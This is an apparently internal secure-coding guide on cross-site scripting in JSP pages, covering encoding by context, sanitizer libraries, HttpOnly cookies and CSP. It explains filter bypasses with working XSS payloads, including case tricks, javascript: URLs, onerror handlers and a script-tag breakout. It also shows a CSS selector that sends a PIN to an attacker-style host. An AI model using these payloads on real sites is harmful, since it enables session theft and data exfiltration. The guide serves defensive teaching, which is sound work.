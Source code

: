 # Cross Site Scripting (XSS)

Data (from untrusted source) gets into the application, then this data is later displayed in the website without being _properly_ validated/sanitized/escaped.

## Example

```jsp
<%-- search.jsp --%>
<% String searchParam = request.getParameter("searchParam"); %>
<h2>Search results for <%= searchParam %></h2>
```

Imagine calling it via `http://whatever/search.jsp?searchParam=<script>alert(document.cookies)</script>`

**What to do?**

- *Remove the `<script>` tags!* - `<scrIpt>` works as well

- Use regexp like `/[sS][cC][rR][iI][pP][tT]/` - `<img src=javascript:alert(1)>`

- *remove `javascript:`* - `<img src=jav&#x41;script:alert(1)>`
- *HTML decode, THEN remove* - `<img src=nonexistent onerror=alert(1)>`

... far from easy.

## Prevention

### NEVER insert untrusted data

In a script:

`<script>... NOT HERE...</script>`

Inside a HTML comment:

`<!-- ... NOT HERE ... -->`

As a tag or attribute name:

`<NOTHERE></NOTHERE>`
`<div NOTHERE=something></div>`

Directly into CSS:

`<style>... NOT HERE ...</style>`

These places are almost impossible to escape/sanitize properly. Do not even try.

### ... exceptions

Since sometimes we definitely need data that is coming from untrusted source.

#### HTML context

HTML encode before inserting something into HTML element context

```html
<div>
  ... HTMLENCODED UNTRUSTED DATA HERE ...
</div>
```

It might be sufficient to encode the following characters, to prevent switching into other execution contexts:

- `&` => `&amp;`
- `<` => `&lt;`
- `>` => `&gt;`
- `"` => `&quot;`
- `'` => `&#x27;`

#### HTML Attribute context

```html
<div attr="... ATTRIBUTE ENCODED UNTRUSTED DATA HERE ...">content</div>
```

- Always quote attributes with `"` or `'`. Quoted attributes can be broken only by the corresponding quote, not quoted attributes can be broken out in may ways (with `[space]`, `/`, `|`, ...)
- Encode the corresponding quote in the data
  - `"` => `&#x22;`
  - `'` => `&#x27;`
- Some attributes are capable of executing their content, they should **never** include untrusted data:
  - `href` - `href="javascript:alert(1)"`
  - all event handlers (`onclick`, `onerror`, `onload`, ...)
  - `src` - obviously
  - `style` - CSS context, dangerous

#### JavaScript data

Do not insert untrusted data into JavaScript context.

**BAD** example (from FD):

```jsp
<script>
  window.browseData = <fd:ToJSON value="${browsePotato}"/>; // well, it's not even JSON...
</script>
```

In this example, `browsePotato` contains some URL parameters, like `searchParam`, `grpId`, etc.

This is a proper JS object: `{ searchParam: "</script><script>alert(1)</script>" }`, and is completely OK in a JS file. But in an HTML, the HTML parser breaks the `<script>` tag at the first `</script>`...

Instead, put the HTML escaped JSON (really) data inside of an HTML tag, then read it via JS, and decode it:

```jsp
<script type="application/json-htmlencoded" id="browsePotato">
  <fd:ToEscapedJSON value="${browsePotato}" />
</script>
<script>
  const dataEl = document.getElementById("browsePotato");
  window.browseData = JSON.parse(dataEl.textContent); // `textContent` is unescaped
</script>
```

#### CSS

Do not insert data into CSS context. It's hard to be safe. Use CSS variables, that can be set via JS.

```CSS
/* obvious */
.whatever {
  background-url: "javascript:alert(1)";
}

/* not that obvious */
input.pincode[value="1234"] {
  background: url(https://h4x0r.org/log?pin=1234);
}

/* ... */
```

#### URL parameters

URLencode everything that goes into URL parameter.

```jsp
<a href="/search.jsp?page=2&searchParam=<%= URLENCODE_THIS %>">Search page 2</a>
```

(It's basically attribute context, but easier to handle.)

#### Need to output untrusted HTML

Use a well maintained sanitizer library, update it regularly.

Examples:

- Java - OWASP Java HTML Sanitizer
- JS - DOMPurify

Don't try to write your own sanitizer, you'll fail.

### Extra protection

- use `HTTPOnly` option for cookies that are not needed by JS
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies
- use proper `CSP` header, it can prevent XSS by disabling inline JavaScripts
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy
